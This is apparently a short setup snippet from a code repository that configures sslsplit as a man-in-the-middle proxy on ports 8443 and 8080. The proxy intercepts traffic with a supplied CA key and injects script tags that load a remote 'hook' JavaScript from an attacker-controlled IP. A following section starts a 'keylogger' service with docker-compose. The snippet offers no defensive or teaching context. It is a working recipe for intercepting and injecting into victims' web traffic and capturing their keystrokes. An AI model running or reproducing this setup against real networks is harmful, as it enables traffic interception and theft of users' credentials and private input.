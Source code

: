 # SSLSplit setup
export CERTIFICATE=ca.crt      
export PRIVATE_KEY=ca.key      
export HOOK_HOST=192.168.10.216
export HOOK_PORT_HTTP=80
export HOOK_PORT_HTTPS=443
sudo ./sslsplit -D -k "$PRIVATE_KEY" -c "$CERTIFICATE" -K "$PRIVATE_KEY" -I "<script src='http://$HOOK_HOST:$HOOK_PORT_HTTP/hook' type='text/javascript'></script>" -I  "<script src='https://$HOOK_HOST:$HOOK_PORT_HTTPS/hook' type='text/javascript'></script>" https 0.0.0.0 8443 http 0.0.0.0 8080

# Keylogger setup:
# configure --hook_host in docker-compose.yml
docker-compose up
